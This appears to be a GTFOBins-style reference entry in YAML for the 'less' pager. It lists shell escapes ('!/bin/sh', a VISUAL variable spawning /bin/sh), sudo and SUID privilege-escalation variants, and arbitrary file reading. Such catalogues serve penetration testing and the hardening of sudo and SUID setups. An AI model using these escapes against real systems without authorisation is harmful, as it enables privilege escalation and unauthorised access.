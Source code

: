 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-limited:
    - code: |
        ./less /etc/profile
        !/bin/sh
  file-read:
    - code: |
        less file_to_read
---
```

